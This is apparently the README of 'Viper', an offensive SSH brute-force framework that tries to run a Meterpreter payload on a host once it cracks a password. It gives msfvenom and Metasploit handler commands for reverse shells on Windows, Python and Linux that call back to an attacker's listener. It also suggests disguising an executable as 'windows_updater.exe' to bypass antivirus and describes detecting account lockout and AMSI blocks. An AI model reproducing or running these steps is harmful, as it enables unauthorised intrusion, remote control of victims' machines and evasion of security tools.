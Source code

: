 Viper V1.2
================
Viper is a SSH Multi-Threaded Brute force Framework

<img src="https://raw.githubusercontent.com/darkseid-security/Viper/main/Screenshots/Screenshot_2023-09-25_14_36_01.png" height="500" width="500">
 
Features
=============
- Multi Threaded using multiprocessing can use a maximum of 5 Threads
- Easy to configure 
- Adjustable Threads
- Visual UI including progress bar
- When password is cracked program will attempt to execute a meterpreter payload
- Built in reverse meterpreter shell for Linux and Windows
- Supports x86,x64 archtechture for Windows and Linux
- [*Updated Feature] Added python/meterpreter/reverse_tcp_ssl
- [*New Feature] Added windows/meterpreter/reverse_tcp 
- [*New Feature] Detects account lockout
- [*New Feature] Detects if AMSI has blocked payload
- [*New Feature] Upload file to server if code execution fails
 

TODO
=========
- Add OS version detection


Payloads
=================

* Windows Meterpreter:
  - generate payload from exploit/multi/script/web_delivery for every metasploit session
  - enable SSL: set SSL true
  - set payload windows/meterpreter/reverse_tcp
  - Select powershell payload: set target 2
  - set LPORT 8443
  - set LHOST
  - run
  - copy payload and replace value of client.exec_command()
  
* Python Meterpreter:
 - generate payload: msfvenom -p payload python/meterpreter/reverse_tcp_ssl lhost=IP lport=4433 -f python -o update.py
 - use exploit/multi/handler
 - set payload python/meterpreter/reverse_tcp_ssl
 - set LPORT 4433
 - set LHOST
 - run -j
 
* Linux Meterpreter:
 - generate payload: msfvenom -p payload linux/x86/meterpreter_reverse_https lhost=IP lport=443 -f elf -o payload.elf
 - use exploit/multi/handler
 - set payload linux/x86/meterpreter_reverse_https
 - set LPORT 443
 - set LHOST
 - run -j

Note
=========
- If threads set to 5 if someone logs in to SSH while brute-forcing program will crash.
- Add own windows executable to /Files/windows_updater.exe to bypass AV and change windows_malware variable to windows_updater.exe.

Run
========
- Generate payloads/files and put in Files folder
- Edit config in Viper.py script to set to target
